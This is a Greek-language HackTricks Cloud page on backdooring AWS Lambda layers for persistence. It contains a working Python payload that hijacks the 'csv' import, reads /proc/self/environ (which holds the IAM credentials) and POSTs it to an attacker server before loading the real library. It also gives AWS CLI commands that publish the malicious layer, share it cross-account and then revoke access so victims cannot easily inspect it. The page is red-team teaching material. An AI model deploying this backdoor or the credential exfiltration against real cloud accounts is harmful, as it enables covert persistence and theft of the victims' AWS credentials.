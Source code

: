 # AWS - Μόνιμη Αντοχή Lambda Layers

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Επίπεδα Lambda

Ένα επίπεδο Lambda είναι ένα αρχείο .zip που **μπορεί να περιέχει επιπλέον κώδικα** ή άλλο περιεχόμενο. Ένα επίπεδο μπορεί να περιέχει βιβλιοθήκες, ένα [προσαρμοσμένο runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), δεδομένα ή αρχεία διαμόρφωσης.

Είναι δυνατόν να συμπεριλάβετε μέχρι **πέντε επίπεδα ανά λειτουργία**. Όταν συμπεριλάβετε ένα επίπεδο σε μια λειτουργία, τα **περιεχόμενα εξάγονται στον κατάλογο `/opt`** στο περιβάλλον εκτέλεσης.

Από **προεπιλογή**, τα **επίπεδα** που δημιουργείτε είναι **ιδιωτικά** για το λογαριασμό AWS σας. Μπορείτε να επιλέξετε να **μοιραστείτε** ένα επίπεδο με άλλους λογαριασμούς ή να **κάνετε** το επίπεδο **δημόσιο**. Αν οι λειτουργίες σας καταναλώνουν ένα επίπεδο που δημοσίευσε διαφορετικός λογαριασμός, οι λειτουργίες σας μποροών να **συνεχίσουν να χρησιμοποιούν την έκδοση του επιπέδου ακόμα και μετά τη διαγραφή του, ή μετά την ανάκληση της άδειάς σας για πρόσβαση στο επίπεδο**. Ωστόσο, δεν μπορείτε να δημιουργήσετε μια νέα λειτουργία ή να ενημερώσετε λειτουργίες χρησιμοποιώντας μια διαγραμμένη έκδοση επιπέδου.

Οι λειτουργίες που αναπτύσσονται ως εικόνα εμφάνισης δεν χρησιμοποιούν επίπεδα. Αντ' αυτού, συσκευάζετε το προτιμώμενο runtime, βιβλιοθήκες και άλλες εξαρτήσεις στην εικόνα εμφάνισης όταν δημιουργείτε την εικόνα.

### Φορτωτική διαδρομή Python

Η διαδρομή φόρτωσης που θα χρησιμοποιήσει το Python στο lambda είναι η ακόλουθη:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Ελέγξτε πώς οι **δεύτερη** και τρίτη **θέσεις** καταλαμβάνονται από καταλόγους όπου οι **στρώσεις lambda** αποσυμπιέζουν τα αρχεία τους: **`/opt/python/lib/python3.9/site-packages`** και **`/opt/python`**

{% hint style="danger" %}
Εάν ένας επιτιθέμενος κατάφερε να **τοποθετήσει παρασκηνιακά** ένα χρησιμοποιημένο λειτουργικό **επίπεδο lambda** ή **να προσθέσει ένα** που θα **εκτελεί αυθαίρετο κώδικα όταν φορτώνεται ένα κοινό βιβλιοθήκη**, θα μπορεί να εκτελέσει κακόβουλο κώδικα με κάθε κλήση lambda.
{% endhint %}

Συνεπώς, οι προϋποθέσεις είναι:

* **Έλεγχος βιβλιοθηκών** που **φορτώνονται** από τον κώδικα των θυμάτων
* Δημιουργία μιας **βιβλιοθήκης προξενικής λειτουργίας με στρώσεις lambda** που θα **εκτελεί προσαρμοσμένο κώδικα** και θα **φορτώνει την αρχική** βιβλιοθήκη.

### Προφορτωμένες βιβλιοθήκες

{% hint style="warning" %}
Κατά την κατάχρηση αυτής της τεχνικής αντιμετώπισα μια δυσκολία: Κάποιες βιβλιοθήκες είναι **ήδη φορτωμένες** στο χρόνο εκτέλεσης της python όταν ο κώδικάς σας εκτελείται. Περίμενα να βρω πράγματα όπως `os` ή `sys`, αλλά **ακόμη και η βιβλιοθήκη `json` ήταν φορτωμένη**.\
Για να καταχραστείτε αυτήν την τεχνική διατήρησης, ο κώδικας πρέπει να **φορτώσει μια νέα βιβλιοθήκη που δεν είναι φορτωμένη** όταν εκτελείται ο κώδικας.
{% endhint %}

Με έναν κώδικα python όπως αυτός είναι δυνατόν να αποκτηθεί η **λίστα των βιβλιοθηκών που είναι προφορτωμένες** μέσα στο χρόνο εκτέλεσης της python στη λειτουργία lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Και αυτή είναι η **λίστα** (ελέγξτε αν υπάρχουν ήδη βιβλιοθήκες όπως `os` ή `json`)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Και αυτή είναι η λίστα των **βιβλιοθηκών** που **περιλαμβάνει εγκατεστημένες από προεπιλογή η λάμδα**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Παραβίαση Επιπέδου Lambda Layer

Σε αυτό το παράδειγμα ας υποθέσουμε ότι ο κωδικός που επιθυμούμε να επιτεθούμε εισάγει το **`csv`**. Θα **παραβιάσουμε την εισαγωγή της βιβλιοθήκης `csv`**.

Για να το πετύχουμε αυτό, θα **δημιουργήσουμε τον φάκελο csv** με το αρχείο **`__init__.py`** μέσα σε ένα διαδρομή που φορτώνεται από τη λάμδα: **`/opt/python/lib/python3.9/site-packages`**\
Στη συνέχεια, όταν εκτελείται η λάμδα και προσπαθεί να φορτώσει το **csv**, το αρχείο μας **`__init__.py` θα φορτωθεί και θα εκτελεστεί**.\
Αυτό το αρχείο πρέπει:

* Να εκτελέσει το payload μας
* Να φορτώσει την αρχική βιβλιοθήκη csv

Μπορούμε να το πετύχουμε αυτό με:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Στη συνέχεια, δημιούργησε ένα zip με αυτόν τον κώδικα στη διαδρομή **`python/lib/python3.9/site-packages/__init__.py`** και πρόσθεσέ τον ως ένα lambda layer.

Μπορείς να βρεις αυτόν τον κώδικα στο [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Το ενσωματωμένο payload θα **στείλει τα IAM διαπιστευτήρια σε έναν εξυπηρετητή ΤΗ ΠΡΩΤΗ ΦΟΡΑ που καλείται ή ΜΕΤΑ από έναν επανεκκίνηση του λάμδα container** (αλλαγή κώδικα ή κρύο λάμδα), αλλά **άλλες τεχνικές** όπως η ακόλουθη θα μπορούσαν επίσης να ενσωματωθούν:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Εξωτερικά Layers

Σημείωσε ότι είναι δυνατόν να χρησιμοποιηθούν **lambda layers από εξωτερικούς λογαριασμούς**. Επιπλέον, μια λάμδα μπορεί να χρησιμοποιήσει ένα layer από έναν εξωτερικό λογαριασμό ακόμα κι αν δεν έχει δικαιώματα.\
Επίσης, σημείωσε ότι το **μέγιστο αριθμό layers που μπορεί να έχει μια λάμδα είναι 5**.

Επομένως, για να βελτιώσει την ευελιξία αυτής της τεχνικής ένας επιτιθέμενος θα μπορούσε:

* Να εισάγει ένα backdoor σε έναν υπάρχον layer του χρήστη (τίποτα δεν είναι εξωτερικό)
* **Δημιουργήσει** ένα **layer** στο **λογαριασμό του**, να δώσει πρόσβαση στον **λογαριασμό του θύματος** για να χρησιμοποιήσει το layer, **να διαμορφώσει** το **layer** στη λάμδα του θύματος και **να αφαιρέσει την άδεια**.
* Η **Λάμδα** θα μπορεί ακόμα να **χρησιμοποιήσει το layer** και το **θύμα δεν** θα έχει κάποιον εύκολο τρόπο να **κατεβάσει τον κώδικα των layers** (εκτός από το να πάρει ένα αντίστροφο κέλυφος μέσα στη λάμδα)
* Το θύμα **δεν θα βλέπει εξωτερικά layers** που χρησιμοποιούνται με την εντολή **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
{% endhint %}
